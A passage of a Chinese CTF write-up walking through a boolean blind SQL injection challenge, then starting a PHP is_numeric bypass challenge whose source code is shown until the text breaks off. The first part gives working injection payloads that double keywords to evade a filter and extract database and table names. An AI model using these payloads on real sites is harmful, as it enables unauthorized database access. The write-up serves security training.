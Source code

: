 + 难度：难  
+ WP：https://blog.csdn.net/xingyyn78/article/details/79747404  

#### 解题过程：
打开网页，随便输入个数字，页面返回`You are in...`，输入在数字后加单引号，返回`You are not in...`。  
![](https://i.loli.net/2019/04/08/5cab407181198.png)  
猜测此处考的是bool盲注，根据页面返回的内容判断真假。  
经过一番简单的fuzz，发现此处过滤的函数只会过滤一次，那么我们可以将过滤关键词双写：`oorr`就好了。  
```
id=aaa'oorr(1=1)='1  //返回You are in
id=aaa'oorr(1=2)='1  //返回You are not in
// 此处的aaa是为了让前边条件为假，那么sql语句的判断将依赖于后边的语句
// 即：false ∪ (条件一) = 条件一
```
我们先判断数据库长度：
```
id=aaa'oorr(length(database())>1)='1
```
其次循环取数据库名进行判断：
```
id=aaa'oorr(mid((select+database())from(1)foorr(1))='c')='1 
//由于,被过滤，使用from与for进行绕过，记得for要写成foorr绕过过滤，+号绕过空格过滤
```
接着循环判断表名：
```
id=aaa'oorr(mid((select(group_concat(table_name))from(infoorrmation_schema.tables)where(table_schema=database()))from(1)foorr(1))='a')='1
```
之后就不写了，与上边类似，写脚本跑就好。  

### 0x05 你真的会PHP吗？  
#### 简单概括：
+ 考点：is_numeric函数的绕过(%20|%00)、PHP32位系统整数型变量最大值为：`2147483647`(2^31-1) 64位：`9223372036854775807`(2^63-1)  
+ 难度：中  
+ WP：https://blog.csdn.net/JBlock/article/details/78745513  

#### 解题过程：
打开题目，发现返回头存在提示信息：  
![](https://i.loli.net/2019/04/09/5cac89ded0e73.png)  
打开链接获得源码：  
```
<?php
$info = ""; 
$req = [];
$flag="xxxxxxxxxx";
ini_set("display_error", false); 
error_reporting(0); 

if(!isset($_POST['number'])){
   header("hint:6c525af4059b4fe7d8c33a.txt");
   die("have a fun!!"); 
}
foreach([$_POST] as $global_var) { 
    foreach($global_var as $key => $value) { 
        $value = trim($value); 
        is_string($value) && $req[$key] = addslashes($value); 
    } 
} 
function is_palindrome_number($number) { 
    $number = strval($number); 
    $i = 0; 
    $j = strlen($number) - 1; 
    while($i < $j) { 
```